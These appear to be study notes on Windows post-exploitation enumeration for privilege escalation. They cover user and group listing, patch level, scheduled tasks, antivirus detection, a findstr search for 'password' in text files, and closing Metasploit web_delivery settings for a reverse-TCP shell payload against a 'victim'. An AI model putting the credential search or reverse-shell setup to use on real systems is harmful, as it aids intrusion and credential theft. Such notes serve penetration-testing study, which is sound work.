 ## User Enumeration
The following commands will help us enumerate users and their privileges on the target system.

Current user’s privileges: `whoami /priv`

List users: `net users`

List details of a user: `net user username` (e.g. `net user Administrator`)

Other users logged in simultaneously: `qwinsta` (the `query session` command can be used the same way) 

User groups defined on the system: `net localgroup`

List members of a specific group: `net localgroup groupname` (e.g. `net localgroup Administrators`)

collecting system information
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

## Searching Files
The `findstr` command can be used to find such files in a format similar to the one given below:
`findstr /si password *.txt`

 Command breakdown:
`findstr`: Searches for patterns of text in files.
`/si`: Searches the current directory and all subdirectories (s), ignores upper case / lower case differences (i)
`password`: The command will search for the string “password” in files
`*.txt`: The search will cover files that have a .txt extension

## Patch Level
Microsoft regularly releases updates and patches for Windows systems. A missing critical patch on the target system can be an easily exploitable ticket to privilege escalation. The command below can be used to list updates installed on the target system.
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

## Network Connection
The netstat command can be used to list all listening ports on the target system. The `netstat -ano`
-   `-a`: Displays all active connections and listening ports on the target system.
-   `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
-   `-o`: Displays the process ID using each listed connection

## Scheduled Tasks
Some tasks may be scheduled to run at predefined times. If they run with a privileged account (e.g. the System Administrator account) and the executable they run can be modified by the current user you have, an easy path for privilege escalation can be available.

The `schtasks` command can be used to query scheduled tasks.

`schtasks /query /fo LIST /v`

## Drivers
The `driverquery` command will list drivers installed on the target system.

## Anti Virus
The first approach may require some research beforehand to learn more about service names used by the antivirus software. For example, the default antivirus installed on Windows systems, Windows Defender’s service name is windefend. The query below will search for a service named “windefend” and return its current state.

`sc query windefend`

 While the second approach will allow you to detect antivirus software without prior knowledge about its service name, the output may be overwhelming.

`sc queryex type=service`



Metasploit: multi/script/web_delivery
- set TARGET PSH\ (Binary) <- this is for powershell
- set payload windows/shell/reverse_tcp
- set PSH-EncodedCommand false

This module will create a script. Need to move that over to the windows victim. Need access to machine to get this to work.